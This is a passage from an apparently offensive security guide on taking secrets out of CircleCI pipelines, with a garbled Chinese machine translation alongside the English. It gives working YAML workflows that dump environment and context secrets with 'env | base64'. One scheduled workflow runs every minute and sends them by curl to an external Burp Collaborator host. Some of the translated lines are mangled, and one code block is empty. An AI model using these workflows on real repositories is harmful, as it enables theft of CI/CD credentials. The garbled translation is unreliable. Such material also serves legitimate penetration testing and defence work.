 ```yaml
  exfil-env-workflow:
    triggers:
      - schedule:
          cron: "* * * * *"
          filters:
            branches:
              only:
                - circleci-project-setup
    jobs:
      - exfil-env
```

### Exfiltrate Context Secrets

You need to **specify the context name** (this will also exfiltrate the project secrets):

您需要**指定上下文名称**（这也将使项目秘密渗透）：

```yaml
```

```yaml
version: 2.1

jobs:
  exfil-env:
    docker:
      - image: cimg/base:stable
    steps:
      - checkout
      - run:
          name: "Exfil env"
          command: "env | base64"

workflows:
  exfil-env-workflow:
    jobs:
      - exfil-env:
          context: Test-Context
```

If you **don't have access to the web console** but you have **access to the repo** and you know that CircleCI is used, you can just **modify a workflow** that is **triggered every minute** and that **exfils the secrets to an external address**:

如果您**无法访问Web控制台**，但是您可以访问repo **，并且您知道使用了CircleCi，则可以**修改工作流** **均为**触发的工作流程** 分钟**，那个**将秘密剥夺了外部地址**：

```yaml
version: 2.1

jobs:
  exfil-env:
    docker:
      - image: cimg/base:stable
    steps:
      - checkout
      - run:
          name: "Exfil env"
          command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
  exfil-env-workflow:
    triggers:
      - schedule:
```